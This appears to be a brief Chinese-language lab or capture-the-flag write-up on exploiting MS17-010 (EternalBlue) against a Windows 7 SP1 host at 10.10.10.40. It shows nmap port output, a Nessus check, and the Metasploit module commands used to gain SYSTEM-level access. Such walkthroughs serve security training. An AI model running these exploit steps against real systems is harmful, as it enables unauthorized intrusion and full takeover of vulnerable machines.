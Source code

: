 ```yaml
---
title: 永恒之蓝
categories:
- training
tags:
- training
---
```

10.10.10.40

```
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC

```
OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

139、445，很眼熟，于是用nessus扫描一下，是不是永恒之蓝等类似漏洞。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-22/2.PNG)

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-22/1.PNG)

```
use exploit/windows/smb/ms17_010_eternalblue 失败
use exploit/windows/smb/ms17_010
sysinfo
getuid
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-22/3.PNG)
运行后直接是最高权限。